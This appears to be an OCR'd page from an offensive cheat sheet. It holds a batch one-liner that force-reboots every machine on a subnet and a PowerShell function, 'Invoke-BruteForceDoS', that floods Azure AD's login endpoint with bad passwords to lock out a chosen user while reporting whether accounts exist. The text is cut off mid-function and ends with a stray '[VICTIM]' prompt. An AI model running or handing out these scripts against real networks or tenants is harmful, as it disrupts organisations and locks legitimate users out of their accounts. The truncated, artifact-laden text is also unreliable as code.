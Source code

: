```powershell
for /L %i in (2,1,254) do shutdown /r /m \\l.l.l.%i /f /t 0 /c "Reboot
message''
```

## PowerShell Azure DoS

```powershell
function Invoke-BruteForceDoS
{
    Param(
            [Parameter(Mandatory=$True)]
            [string]$User
        )
    while($true)
    {
        $randomGuid = New-Guid
        $body = @{
            "resource"   = $randomGuid
            "client_id"  = $randomGuid
            "grant_type" ="password"
            "username"   = $User
            "password"   = $randomGuid
            "scope"      = "openid"
        }

        try
        {
            $response=Invoke-RestMethod -UseBasicParsing -Uri "https://login.microsoftonline.com/common/oauth2/token" -ContentType "application/x-www-form-urlencoded" -Method POST -Body $body
        }
        catch
        {
            $stream = $_.Exception.Response.GetResponseStream()
            $responseBytes = New-Object byte[] $stream.Length

            $stream.Position = 0
            $stream.Read($responseBytes,0,$stream.Length) | Out-Null
            
            $errorDetails = [text.encoding]::UTF8.GetString($responseBytes) | ConvertFrom-Json | Select -ExpandProperty error_description

            $datacenter = "{0,-6}" -f ($_.Exception.Response.Headers["x-ms-ests-server"].Split(" ")[2])
        }
            
        # Parse the error code.
        if(!$exists -and $errorDetails)
        {
            if($errorDetails.startsWith("AADSTS50053")) # The account is locked, you've tried to sign in too many times with an incorrect user ID or password.
            {
                Write-Host "$($datacenter): [ LOCKED ] $user" -ForegroundColor Red
            }
            elseif($errorDetails.StartsWith("AADSTS50126")) # Error validating credentials due to invalid username or password.
            {
                Write-Host "$($datacenter): [WRONGPWD] $user" -ForegroundColor Gray
            }
            elseif($errorDetails.StartsWith("AADSTS50034")) # The user account {identifier} does not exist in the {tenant} directory. To sign into this application, the account must be added to the directory.
            {
                Write-Host "$($datacenter): [NOTFOUND] $user" 
```

[VICTIM]: PS C:\Users\Victim\Documents>